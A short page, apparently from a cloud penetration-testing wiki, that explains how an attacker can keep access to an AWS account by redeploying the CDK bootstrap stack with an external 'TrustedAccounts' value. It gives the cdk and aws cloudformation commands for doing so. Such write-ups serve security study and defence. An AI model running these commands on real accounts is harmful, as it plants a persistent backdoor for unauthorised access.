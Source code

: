 # AWS - Cloudformation Persistence

## CloudFormation

For more information, access:

[[../aws-services/aws-cloudformation-and-codestar-enum.md]]

### CDK Bootstrap Stack

The AWS CDK deploys a CFN stack called `CDKToolkit`. This stack supports a parameter `TrustedAccounts` which allow external accounts to deploy CDK projects into the victim account. An attacker can abuse this to grant themselves indefinite access to the victim account, either by using the AWS cli to redeploy the stack with parameters, or the AWS CDK cli.

```bash
# CDK
cdk bootstrap --trust 1234567890

# AWS CLI
aws cloudformation update-stack --use-previous-template --parameters ParameterKey=TrustedAccounts,ParameterValue=1234567890
```

